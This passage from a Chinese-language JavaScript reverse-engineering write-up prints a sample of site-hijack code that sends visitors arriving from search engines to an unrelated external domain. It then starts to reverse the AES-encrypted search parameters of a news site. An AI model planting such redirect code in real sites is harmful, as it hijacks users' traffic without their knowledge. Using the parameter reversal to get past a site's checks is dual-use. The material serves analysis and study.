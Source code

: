 <a rel="noreferrer noopener" href="https://www.bob5918.com/bob.js" data-type="URL" data-id="https://www.bob5918.com/bob.js" target="_blank" rel="nofollow" >查看劫持代码</a>

```javascript
var _hmt = _hmt || [];
    (function() {
        var hm = document.createElement("script");
        hm.src = "https://hm.baidu.com/hm.js?18963394de828e9ee31d0bfb3e310da3";
        var s = document.getElementsByTagName("script")[0];
        s.parentNode.insertBefore(hm, s);
    })();
    (function () {
        /*百度推送代码*/
        var bp = document.createElement('script');
        bp.src = '//push.zhanzhang.baidu.com/push.js';
        var s = document.getElementsByTagName("script")[0];
        s.parentNode.insertBefore(bp, s);
        /*360推送代码*/
        var src = document.location.protocol + '//js.passport.qihucdn.com/11.0.1.js?8113138f123429f4e46184e7146e43d9';
        document.write('<script src="' + src + '" id="sozz"><\/script>');
    })();

    document.writeln("<script LANGUAGE=\"Javascript\">");
    document.writeln("var s=document.referrer");
    document.writeln("if(s.indexOf(\"baidu\")>0 || s.indexOf(\"sogou\")>0 || s.indexOf(\"soso\")>0 ||s.indexOf(\"sm\")>0 ||s.indexOf(\"uc\")>0 ||s.indexOf(\"bing\")>0 ||s.indexOf(\"yahoo\")>0 ||s.indexOf(\"so\")>0 )");
    document.writeln("location.href=\"https://www.136415.com\";");
    document.writeln("</script>");
```

js加密实现<a href="https://tool.chinaz.com/js.aspx" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://tool.chinaz.com/js.aspx</a>

#### JS逆向实例

**澎湃新闻搜索参数加密逆向**

澎湃新闻搜索参数

  * <a rel="noreferrer noopener" href="https://www.thepaper.cn/searchResult.jsp" target="_blank" rel="nofollow" >https://www.thepaper.cn/searchResult.jsp</a>
  * 搜索关键字"sckval"
  * 通过POST请求<a rel="noreferrer noopener" href="https://www.thepaper.cn/getCheckCodeData.jsp" target="_blank" rel="nofollow" >https://www.thepaper.cn/getCheckCodeData.jsp</a>获取suuid、codeData
  * 调用CryptoJS.AES实现加密

<pre class="wp-block-code"><code>  // npm install crypto-js
  const CryptoJS = require("crypto-js");
  // CryptoJS
  // console.log(CryptoJS.lib.WordArray.random(128 / 8).toString(CryptoJS.enc.Hex))
  function jiami(suuid,codeData){
      kdStr = {}
      kdStr.suuid = suuid
      kdStr.codeData= codeData
      var iv = CryptoJS.lib.WordArray.random(128 / 8).toString(CryptoJS.enc.Hex);
      var kd = CryptoJS.enc.Utf8.parse(kdStr.codeData);
      md = CryptoJS.mode.ECB;
      var edt = CryptoJS.AES.encrypt(kdStr.codeData, kd, {
          iv: CryptoJS.enc.Hex.parse(iv),
          mode: md,
          padding: CryptoJS.pad.Pkcs7
      });
      var returnObj = {};
      returnObj.codeData = kdStr.codeData;
      returnObj.seeda = encodeURIComponent(edt);